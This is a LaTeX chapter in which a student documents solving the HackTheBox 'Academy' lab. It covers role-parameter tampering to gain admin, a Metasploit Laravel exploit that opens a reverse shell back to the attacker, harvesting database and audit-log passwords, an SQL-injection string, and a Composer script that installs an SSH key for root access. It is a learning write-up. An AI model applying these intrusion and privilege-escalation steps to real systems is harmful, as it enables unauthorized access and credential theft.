\documentclass[../main.tex]{subfiles}

\begin{document}

\section{HackTheBox Academy}

Before we can get started, we need to choose a machine to break into. I really wanted to make a Linux machine which wasn't too hard. So I chose the machine called "Academy" as this is an easy machine. After reading the forum about this machine. I saw that there were a lot of mixed reactions at the level of the machine. I realised that for more experienced users it really was an easy box because the techniques and tools were straight forward. For a newcomer, it's another story as you don't know where to search. 


\includegraphics[width=\linewidth]{images/Robbe/Academy_intro5.png}


The purpose of this machine is to find a hash in the root.txt and user.txt files. In order to do this, we need access to the root account but also for a normal user. The root.txt file can be found under /root and the user.txt under /home/[username]. 

Before we can start, we need to add the target machine to our Kali machine. Therefore, I added the IP-address of the target to my /etc/hosts file.

Then we also need to start the VPN-connection. In the right directory I gave the following command:

\begin{lstlisting}
# openvpn RobbeDumont.ovpn
\end{lstlisting}

Another really important thing to do is to add the target host to our /etc/hosts file.


\includegraphics[width=\linewidth]{images/Robbe/Academy_intro4.png}

\subsection{Recon}
As always we start with a nmap scan of our machine.


\includegraphics[width=\linewidth]{images/Robbe/Academy_scanning1.png}
\textit{The -sV stands for Version Scan, -sC for the use of safe scripts and -oA to give all output.}

We will start our research with the HTTP server. Nmap tells us the title of that webpage is "Did not follow redirects to http://academy.htb/" but when we search on that port we got redirected to the academy. Htb. To find some interesting files and folders we run the tool \textbf{DIRB}.

\begin{lstlisting}
$ dirb http://10.10.10.215:80/ /usr/share/dirb/wordlists/common.txt -l
$ dirb http://academy.htb/ /usr/share/dirb/wordlists/common.txt -l
\end{lstlisting}

With the two dirb commands above, we tried to find any interesting directories. The first command didn't give any useful dirs, after looking at them. The second command was very useful as we found the admin login page. This login page will be important later on. Underneath you can find an image of the output. 

zie afbeelding Academy\_dirb1

After a long search on the index page, I returned to Nmap and ran the scan again. In my first attempt I didn't specify my port range. It's a crucial mistake as there are often more ports open or in use then only in the first thousand. Following is the improved command of our nmap scan:

\begin{lstlisting}
# nmap -sV -sC -p 1-65535 10.10.10.215
\end{lstlisting}
Which gave the following output:


\includegraphics[width=\linewidth]{images/Robbe/Academy_scanning2.png}

We can see that there is another port (33060) open with the MySQL X Protocol on it. As my machine is known for a very common vulnerability I skipped this port for now but it can be important later on.
\pagebreak
\subsection{Foothold}
After this, I returned my focus on the webpage part. My first move was to inspect the login and register process. With BurpSuite I intercepted the login process, but I didn't find anything interesting. Then I switched to the registration process. What caught my attention was that when you register the request that is sent in the background has a parameter "role id". By default the value of this is 0 but if we manipulate our POST-request and make it 1 we become registered  as an admin.


\includegraphics[width=\linewidth]{images/Robbe/Academy_http3.png}

In Burp Suite we forward this message - after our manipulation - so that we become an admin user. Of course, it has no point becoming an admin as we can't log in to an admin panel. So at an earlier stage we found the admin panel with dirb. During that previous attempt we found the following useful link: htttp: //academy. Htb/admin.php. With our self-created admin account, we log in to the admin panel. After a quick look, we saw a subdomain "dev-staging-01.academy.htb" where there is a lot of useful information. In a logger error, we can see some important data as the application name, application key, database type, database login,...


\includegraphics[width=\linewidth]{images/Robbe/Academy_http4.png}
As our machine used common vulnerabilities I started my search with the application \textbf{Laravel}. After a quick search, I found quite a lot of possible vulnerabilities that could work. The first that I tried was to post a payload to the server (10.10.10.215) which I then looked up in my browser. After that I should see a reverse shell. This looked like the ideal solution, but I got the error "Permission denied" when I tried to transfer my payload to the server. The transfer of my script was done by using "Curl".

Then I remembered the framework "Metasploit". After a quick Google search I found that there was a vulnerability on Metasploit which I could try. Following commands are every step to start the Metasploit Framework and the Laravel exploit.:

\begin{lstlisting}
sudo msfdb init && msfconsole
metasploit - search laravel - use 0
    set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
    set RHOSTS 10.10.10.215
    set VHOST dev-staging-01.academy.htb
    set LHOST tun0 (You will get the IP from the VPN)
    show options
exploit 
\end{lstlisting}

\includegraphics[width=\linewidth]{images/Robbe/Academy_foothold1.png}
This exploit will open a reverse shell on our HTB target. This shell is a python shell which is not as easy as a bash shell for me. To change this shell we use the following command:
\begin{lstlisting}
python3 -c 'import pty;pty.spawn("/bin/bash")'
\end{lstlisting} 

\subsection{User Flag}
The first thing I did when I got into this machine was to get an overview of all the different users in the target. The first command below is to see all the users. After that we're gonna see which user has the user.txt file. We can look for this file with a recursive grep.
\begin{lstlisting}
ls /home
cd /home
grep -r user.txt
\end{lstlisting} 
As visible on the picture below, user cry0l1t3 has the user flag.
\begin{center}

\includegraphics[width=0.7\linewidth]{images/Robbe/Academy_user1.png}
\end{center}
Now that we know who has the user flag, we go back to the entry folder of the machine. After that we do a recursive grep on the word \textbf{DB\_PASSWORD}. I came to this lead after looking deeper into the dev-staging subpage. There I found that all users logged in a database, so looking for the database password is quite obvious.

\begin{lstlisting}
cd /var/www/html/htb-academy-dev-01/public
grep -r DB_PASSWORD * 2>/dev/null
\end{lstlisting}

\pagebreak
\emph{Important is to repeat this grep but always move on to the parent dir (with cd ..) until you found the user-password combination.}


\includegraphics[width=\linewidth]{images/Robbe/Academy_user2.png}
So we found the following user-password combo:

\quad user = cry0l1t3

\quad password = mySup3rP4s5w0rd!!

So now we can log in as our new user. Of course, this will open up a new python bash, but I like to work with Bash so I change this shell. Then we just go to the directory of our user and open the user.txt file to see our user flag. You can also verify the user.txt origin in our earlier graph on the page before.
\begin{lstlisting}
su cry0l1t3     (with password mySup3rP4s5w0rd!!)
python3 -c 'import pty;pty.spawn("/bin/bash")'
cd /home/cry0l1t3
cat user.txt
\end{lstlisting}

\begin{center}

\includegraphics[width=0.5\linewidth]{images/Robbe/Academy_user3.png}
\end{center}

So in the end, the user flag wasn't too difficult but of course looking back on things always make it easier. I spend quite a lot of time on enumeration and looking for possible leads.

\pagebreak
\subsection{Root Flag}
Then it is time for our last phase and to find the root flag. I thought this would be more of the same enumeration as with the user flag. I saw that you needed to have root access to catch the root flag (obviously...). The tactic that worked for me was running a script to set up an SSH connection. As our current user does not lend itself to improving to root, I searched for another user. As I was searching for some tips, I saw a blog where they recommended me to enumerate the /var/log directory.

\begin{lstlisting}
cd /var/log
ls -al
\end{lstlisting}
Looking for some interesting files, I detected the audit directory. This is quite an opportunity for us as we can now search for someone who typed the command "su". So we grep for a log of that command and can use the password of it.
\begin{lstlisting}
cd audit
ls -al
grep -r 'comm="su"'
\end{lstlisting}

\includegraphics[width=\linewidth]{images/Robbe/Academy_root1.png}

We can use the string after data as this is the password. Of course, we still need to decrypt this string. After a quick search we find that this is encrypted in hexadecimal. With an online browser tool, we quickly find the password (mrb3n\_Ac@d3my!). Logical thinking we find that this password is for user mrb3n as we found this user in the beginning in our /home folder.

\pagebreak
\begin{center}

\includegraphics[width=0.7\linewidth]{images/Robbe/Academy_root2.png}
\end{center}

Now we can work on our SSH-part of the stage. The idea is to generate a public and a private SSH key to upload it to our target. That way we can set up an SSH connection from our Kali to the Hack The Box machine. So the first steps are identical as previous: log in with our new user and change the shell to Bash.

\begin{lstlisting}
su mrb3n     (with password mrb3n_Ac@d3my!)
python3 -c 'import pty;pty.spawn("/bin/bash")'
\end{lstlisting}

Simultaneously we open another command prompt on our machine where we create a public/private rsa key pair.

\begin{lstlisting}
# ssh-keygen
$ cat /root/.ssh/id_rsa.pub
\end{lstlisting}

\begin{center}

\includegraphics[width=0.8\linewidth]{images/Robbe/Academy_root3.png}
\end{center}

Copy this public SSH key so we can use it in our Academy machine. We will create a json file to add this public key to our machine. By calling our file composer.json we can use the command "composer" to execute the script that we declared in our json file. The following commands are executed in our reverse shell. We open a json script in the temporary directory to add the script and your public key.

\begin{lstlisting}
$ vi /tmp/composer.json
\end{lstlisting}
Normally we could add our script easily with vi but for some reason this "vi" doesn't work on this machine. I tried other text editors like nano or vim, but neither of them seem to work. After searching a while I tried the following command which created my composer.json file correctly:


\includegraphics[width=\linewidth]{images/Robbe/Academy_root6.png}

Now we only have to run our json file with the command composer. This will run the script that we declared in the json file and will upload the public SSH key so that we can create an SSH connection.
\begin{lstlisting}
# composer --working-dir=/tmp run-script SSH
\end{lstlisting}

\includegraphics[width=\linewidth]{images/Robbe/Academy_root4.png}
The output looks like a huge warning but no worries this is completely fine. 

If we go back to our other command prompt we can now use ssh to connect as root with our target. We use the following commands:

\begin{lstlisting}
$ ssh -i id_rsa root@academy.htb
\end{lstlisting}

At first there will be a question where you just need to type "yes". Now we will be in a shell as root. With an easy ls command, we can find our root.txt file and complete this machine.

\begin{lstlisting}
ls -al
cat root.txt
\end{lstlisting}

\begin{center}

\includegraphics[width=0.6\linewidth]{images/Robbe/Academy_root5.png}
\end{center}

\pagebreak

\subsection{Conclusion}

My first steps in the machine were quite a challenge. As this was my first Hack The Box experience I immediately thought this wasn't an easy machine. HTB as an official forum and there were a lot of people saying that is was more a medium box. So I became a bit worried about whether I would be capable of hacking the box. In the end the box was quite easy, especially if you look back on it. The first phase, to get a foothold, was much easier than I thought. The first steps were to analyze the different web pages and scanning the HTB network. After that I was complicating this much more than I should have done. I started investigating the possibility of SQL Injection to bypass the authentication. An example of that is inserting \textit{' or 1=1 --} into the username when I tried to authenticate myself. My thoughts were that I could SQL inject myself as an admin in the web portal. In the end I was making things much more difficult than I should have done. So I put my attention on the login- and registration process. Looking back on it, the machine, it's card was completely right. Foothold is very easy. The biggest skill that I learned was using Burp suite as I didn't know the tool that well. After getting admin access, I putted my attention on a common vulnerability. It wasn't that difficult to find an exploit of Laravel. I already had some experience with Metasploit so this wasn't a real challenge for me.

Then searching for the user flag: this process was actually not that difficult. As indicated on the info board of the Academy machine, you should enumerate really good. Of course a recursive grep isn't that hard for us. What I learned from this process was where I needed to look because all the things that I found were really easy. Enumeration is quite time-consuming if you do this manually. For further CTF's and HTB'es, I'm currently creating my personal enumeration script so that this process will take less time.

Finally the last phase: the root flag. My first thoughts were "This will be more enumeration and time-consuming searching" but this wasn't true. After reading a tip in the official forum of Hack The Box, I started my research for setting up an SSH connection. After a long search and many tries, I found a useful lead with Composer. There was a possibility to run a composer.json file in which you declared a script with your public SSH key. It was my first shot at Composer and I learned a lot of it. So this stage was a bit trickier but still manageable for a newbie in Hack The Box.

So to round up I would say this box has really improved my overall skills. I learned a couple of new tools and frameworks. A really nice challenge with a lot of different techniques. I was glad to finish this machine and will try some other machines in the future.

\end{document}